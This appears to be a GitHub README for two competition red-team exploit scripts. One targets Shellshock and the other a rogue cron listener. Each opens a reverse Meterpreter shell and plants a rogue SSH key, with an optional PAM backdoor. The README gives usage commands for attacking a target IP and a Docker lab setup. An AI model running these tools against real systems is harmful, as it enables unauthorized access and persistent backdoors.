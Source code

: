 # Shell Shock
This was one of the automated exploit scripts that I developed for the [cyber force competition](https://cyberforcecompetition.com/). It uses a wrapper, ```shellshock.py```, for the rc script, ```shellshock.rc```. It's only been tested on CentOS 7, Debian 8, and Ubuntu 16.04. 

Some of the code will need to be modified to work for your environment. In particular, the path for the curl commands in ```shellshock.py``` (it's currently set to ```/cgi-bin/admin.cgi```), as well as the path to the target user's home directory for the ssh key backdoor in ```shellshock.rc``` (it's currently set to ```/home/blueteam/```).
```
Description:
  shellshock.py will exploit the shell shock vulnerability and create a reverse meterpreter shell. It will follow this with a rogue ssh key.

Usage:
  python3 shellshock.py -l <your ip address> -r <target ip address>

Arguments:
  -h, --help            show this help message and exit
  -l LHOST, --lhost LHOST
                        Local IP Address
  -r RHOST, --rhost RHOST
                        Remote IP Address

Examples:
  Get the help screen:
    python3 shellshock.py -h
  Attempt to pwn 10.0.0.5 from 10.0.0.130:
    python3 shellshock.py -l 10.0.0.130 -r 10.0.0.5

Author:
  Jayson Grace (jayson.e.grace@gmail.com)
```

## Test exploitation with Docker
This will throw errors for the post exploitation stuff, but it will allow you to get a session for experimentation.
1. Run vulnerable container: ```docker run -d -p 80:80 hmlio/vaas-cve-2014-6271```
2. Change the path for the curl commands in ```shellshock.py``` from ```http://{args.rhost}/cgi-bin/admin.cgi``` to ```http://{args.rhost}/cgi-bin/stats```
3. Set -r parameter to the IP of the system running the container

# Rogue Backdoor
This was another one of the automated exploit scripts that I developed for the [cyber force competition](https://cyberforcecompetition.com/). It uses a wrapper, ```rogue_backdoor.py```, for the rc script, ```rogue_backdoor.rc```.It's only been tested on CentOS 7, Debian 8, and Ubuntu 16.04. 

The premise for this attack vector was a cronjob on the target system that would open up a listener on port 9999.

Some of the code will need to be modified to work for your environment. In particular, there is an option to setup a pam backdoor that would reside in ```post/```. Additionally, the target port is hardcoded as 9999 in ```rogue_backdoor.py```, and the path to the target user's home directory for the ssh key backdoor in ```rogue_backdoor.rc``` (it's currently set to ```/home/blueteam/```).
```
Description:
  rogue_backdoor.py will exploit a rogue backdoor vulnerability and create a reverse meterpreter shell. It will follow this with a rogue ssh key.
  
Usage:
  python3 rogue_backdoor.py -l <your ip address> -r <target ip address>

Arguments:
  -h, --help            show this help message and exit
  -l LHOST, --lhost LHOST
                        Local IP Address
  -r RHOST, --rhost RHOST
                        Remote IP Address

Examples:
  Get the help screen:
    python3 rogue_backdoor.py -h
  Attempt to pwn 10.0.0.5 from 10.0.0.131:
    python3 rogue_backdoor.py -l 10.0.0.131 -r 10.0.0.5

Author:
  Jayson Grace (jayson.e.grace@gmail.com)
```
